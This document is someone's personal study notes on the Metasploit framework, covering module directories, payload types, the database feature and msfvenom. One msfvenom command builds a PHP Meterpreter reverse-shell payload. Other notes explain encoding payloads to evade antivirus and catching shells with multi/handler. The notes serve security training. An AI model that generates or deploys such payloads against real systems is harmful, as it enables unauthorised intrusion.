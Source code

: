 
- For me the metasploit-framework directory lives here:
	- `/usr/share/metasploit-framework/modules/auxiliary`
- You can find where your msf directory is by:
	- `which msfconsole` 
	- Cat the `msfconsole` file and that will show you were the metasploit-framework directory lives in your system
	
- Auxiliary
	- Any supporting module, such as scanners, crawlers and fuzzers can be found in this directory
		- `tree -L 1 /usr/share/metasploit-framework/module`

- Encoders
	- Will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them
	-  Security utilities like anti-virus solutions have a database of known threats. 
	- They tend to detect threats by comparing any suspect files to that database and will alert if there is a match 
	- Sometimes they'll do additional checks, so encoders have limited success depending on the security utility solution that the focused-machine(s) may be running
	- Encoders are located in the encoders directory
		- `tree -L 1 /usr/share/metasploit-framework/encoders`

- Evasion
	- These modules will do as the directory name suggests - to try and evade said security utilities that a focused-machine may have
	- These modules live here:
		- `tree -L 2 /usr/share/metasploit-framework/evasion`

- Exploits
	- `tree -L 1 /usr/share/metasploit-framework/exploits`

- NOPs (No OPeration)
	- Do nothing, lol
	- Normally used as buffers to achieve consistent payload sizes 
	- `tree -L 1 /usr/share/metasploit-framework/modules/nops`

- Payloads
	- Codes that will run on the focused-machine
	- Exploits will leverage a vulnerability, however, it will be the payload(s) that achieve whatever the adversary is wanting to do
	- Adapters
		- Wraps single payloads to convert them into various formats
		- ie wrapping a payload in a PowerShell adapter which will run a single PowerShell command which will also execute the payload
	- Singles
		- Self-contained payloads that don't have the need to download any additional components to run on 
		- ie launching ntoepad.exe, calc.exe, adding a user to the system
	- Stagers
		- Setting up a connection between Metasploit and the focused-machine
		- Useful for working with staged payloads
		- The staged payload is first uploaded on to the target system and then the rest of the payload is downloaded 
		- The initial size of the payload will be small when compared to the full payload being sent at once
	- Stages
		- Downloaded by the stager, allows the use of larger payloads
	- Identifying payload types:
		- `/shell_payload`
			- In-line, unstaged payload
		- `/shell/payload`
			- Staged payload 
		- Notice the differences above, the in-line variant has an underscore between shell and the payload name
		- The staged payload sits in its own directory called shell
	- `tree -L 1 /usr/share/metasploit-framework/modules/payloads`
	
- Post
	- Used in the final stage of the test
	- `tree -L 1 /usr/share/metasploit-framework/modules/post`

- Scanning
- Database Feature
- Vuln Scan
- Exploit Vulns
- `msfvenom`

- Scanning
	- use auxiliary/scanner/ (and whatever you find in here)
	- search
	- always use info to find out more about how the module works
	- options as well 
		- smb/smb_version || smb_enumusers || smb_enumshares
		- 
	- You can also run nmap when not within a module in msf
	- You can also do a udp scan
		- `use auxiliary/scanner/discovery/udp_sweep`
			- pretty neat

- Database Feature
	- Useful for when considering multiple devices so as to keep project management simplified and avoid possible confusion when setting parameters
	- Requires the use of `postgresql`
		- `systemctl start postgresql`
			- Make sure that the service has started and is running
		- `msfdb init`
			- Initialise the Metasploit Database
		- `db_status`
			- Check the status of the DB when inside the MSF Console
	- Workspaces
		- Workspaces can be created to isolate different projects
		- `help workspace`
			- works
			- Will list you the various options that you can use when wanting to work with workspace(s)
	- `db_nmap`
		- Report and findings will be saved to the database/workspace that is currently being worked in 
	- `hosts`
		- will list hosts that have been picked up and stored in the database
		- `-h` for more options
		- Once host information has been stored in the DB, you can use hosts -R to add variables to the RHOST parameter
	- `services`
		- Will list the services respective to each host running them that have been picked up 
		- `-h` for more options
		- `-S` will allow you to search the DB for services in the environment (that have been scanned and added to the DB)

- Vulnerability Scanners

- Exploits
	- Run `show payloads` when within an exploit module to show compatible payloads that can go with it
	- Take note that payloads may have additional requirements/parameters that may need to be set so also don't forget to run the `options` (or `show options`) command to see what may be needed
	- Backgrounding jobs
		- Works in MSF as well
		- `ctrl+z` to background a job
	- Sessions
		- `sessions` 
			- Will list all active sessions

- MSFVENOM
- `msfvenom`
	- `msvenom --list formats`
		- Will list supported output formats
			- ie Python
	- Encoders
		- Using modern obfuscation techniques or learning methods to inject shellcode is a better solution for a Red Team Operatives problem
		- But some encoding can help
		- Example:
			- `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.123.123.123 -f raw -e php/`
			- `-p` is the parameter for payload
			- `-f` is for format, the output format, in this case it will be raw
			- `-e` is the encoder
	- Using `exploit/multi/handler`
		- To receive returned (reversed) shells

- Meterpreter
	- Staged Payloads
		- Sent in two steps
			- Initial part is called the Stager and requests the rest of the payload
			- Allows for a smaller initial payload size
	- Inline Payloads (unstaged)
		- Sent in a single step

- Viewing Meterpreter Payloads
		`msfvenom --list payloads | grep meterpreter`

- Consider
	- The OS of the system you are focusing on
		- ie  Android, Windows, OSX, Linux
	- Components that are running on it
	- Network Connection types that are available

- When in Console, don't forget about the `show payloads` command when within a module
	- Can be helpful

- SMB
- 